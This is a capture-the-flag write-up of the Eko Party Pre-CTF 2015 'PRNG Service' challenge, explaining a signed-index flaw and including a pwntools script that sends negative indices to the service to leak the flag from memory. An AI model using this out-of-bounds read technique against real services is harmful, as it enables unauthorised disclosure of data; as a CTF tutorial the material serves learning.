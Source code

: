```yaml
---
layout: post
title: "Eko Party Pre-CTF 2015 PRNG Service"
date: 2015-09-20 23:39:32 -0400
author: [superkojiman]
comments: true
categories: [ekoparty]
---
```


### Solved by superkojiman

Connect to the service and it generates 64 random numbers. If we look at the source code provided, the flag is stored at rnd[0]:

```c
strcpy((char *)&rnd[0], ANSWER); # our flag is stored on answer.h
srandom(1337);
```

Notice that srandom uses a hardcoded seed, so we can predict the pseudorandom values. We need to extract the flag using the following:

```c
printf ("Your number is: 0x%08x\n", rnd[base + i]);
```

Note however:

```c
signed int i;
unsigned int base, try, rnd[128];
```

rnd and base are unsigned. So we can provide negative values. That means providing -64 gets us rnd[0]. 

```
# nc challs.ctf.site 20003
Welcome to PRNG service
Please wait while we generate 64 random numbers...
Process finished
Choose a number [0-63]?-64
Your number is: 0x7b4f4b45
```

What's 0x7b4f4b45? 

```
# python -c 'from pwn import *; print p32(0x7b4f4b45)'
EKO{
```

That's the start of our flag. Exploit time:

```python
#!/usr/bin/env python
from pwn import *
import time

r = remote("challs.ctf.site", 20003)
flag = ""
n = -64
i = 0
print r.recv()

while i < 10:
    r.send(str(n))
    d = r.recv()
    a = d.split('\n')[0].split(':')

    if len(a) > 1:
        flag += p32(int(a[1], 16))

    n += 1
    i += 1

print "flag:", flag
```

Let's see it in action:

```
# ./sploit.py 
[+] Opening connection to challs.ctf.site on port 20003: Done
Welcome to PRNG service
Please wait while we generate 64 random numbers...

flag: EKO{little_endian_and_signed_-1nt}\x00\xb7
[*] Closed connection to challs.ctf.site port 20003
```

The flag is *** EKO{little_endian_and_signed_-1nt}***
